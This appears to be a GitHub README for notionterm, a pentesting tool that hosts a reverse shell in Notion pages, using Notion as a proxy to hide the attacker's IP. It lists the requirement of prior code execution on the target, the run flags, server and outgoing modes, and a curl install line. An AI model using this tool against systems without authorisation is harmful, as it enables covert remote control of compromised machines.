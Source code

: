 <div align="center">
<h1>
  <code>notionterm</code> 
</h1>
  <img src="https://github.com/ariary/notionterm/blob/main/img/notionterm.png"  width=150>
  
  <strong> Embed reverse shell in <a href="https://www.notion.so">Notion</a> pages.</strong><br>
  <i>Hack while taking notes</i>
</div>

---

![demo](https://github.com/ariary/notionterm/blob/main/img/demo_dark_light.gif)

---
<div align=left>
<h3>FOR ➕:</h3>
<ul>
  <li>Hiding attacker IP in reverse shell <i>(No direct interaction between attacker and target machine. Notion is used as a proxy hosting the reverse shell)</i></li>
  <li>Demo</li>
  <li>Quick proof insertion within report</li>
  <li>High available and shareable reverse shell (desktop, browser, mobile)</li>
  <li>Encrypted and authenticated remote shell</li>

</ul> 
</div>
<div align=left>
<h3>NOT FOR ➖:</h3>
<ul>
  <li>Long and interactive shell session (see <a href=https://github.com/ariary/tacos>tacos</a> for that)</li>
</ul>

---
<div align=left>
<h3 >Why? 🤔 </h3>
The focus was on making something fun while still being usable, but that's not meant to be THE solution for reverse shell in the pentester's arsenal
</div>
<div align=right>
<h3 >How?  🤷‍♂️</h3>
Just use notion as usual and launch <code>notionterm</code> on target.
</div>
<div align=left>
<h3 >Requirements 🖊️</h3>
 <ul>
  <li>Notion software and API key</li>
  <li>Allowed HTTP communication between the target and notion domain</li>
  <li>Prior RCE on target</li>
</ul> 
</div>

---
<blockquote align=left>
roughly inspired by the great idea of <a href="https://github.com/mttaggart/OffensiveNotion">OffensiveNotion</a> and <a href="https://github.com/ariary/Notionion">notionion</a>! 
</blockquote>

## Quickstart

**Set-up**
1. Create the "reverse shell" page in Notion: [Page template](https://fluff-grade-468.notion.site/notionterm-template-19dc9d0bbae04f40b56c475f8cd79607)
2. Give the permissions to `notionterm` to access the page (with the notion api key)

**Run** ([details](#-run))

3. Start `notionterm`
4. Activate the reverse shell (with the button `ON`)
5. do your reverse shell stuff
6. Shutdown the reverse shell (`OFF`)

### 👟 Run

```shell
# On target with prior RCE
./notionterm
```

Configuration can be made using:
- Flags
- Configuration table in notion page

You can choose between:
*    `-button-url` string
        override button url (useful if notionterm service is behind a proxy)
*  `-delay` int
        delay between each api call (default 500)
*  `-p` string
        specify target listening port (HTTP traffic)
 * `-serve`
        use notionterm in server mode .i.e wait for request specifying the notion page url to add terminal
*  `-shell` string
        shell runtime ("sh,bash and cmd.exe") (default "sh")

#### Server mode
To quickly obtain terminal in any notion page you can use the server mode (Requirement: *integration w/ write access to the page*)

**First**, Launch notionterm on target with server mode enable:
```shell
notionterm -serve [flags]
```
**Then**, when/where you want to get a terminal in your notion page create an embed block with url containing the page id *(`CTRL+L`to get it)*: `https://[TARGET_URL]/notionterm?url=[PAGE_ID]`.

Wait..

**And that's all!**

### Outgoing mode
**+**: only target -> notion page flux *(.i.e No need to have a HTTP server reachable on target)*
```shell
notionterm -outgoing [flags]
```
Launch notionterm and immediatly request notion page to retrieve command to execute (do not wait the button to be clicked).



## Install
* **From release**: `curl -lO -L https://github.com/ariary/notionterm/releases/latest/download/notionterm && chmod +x notionterm`
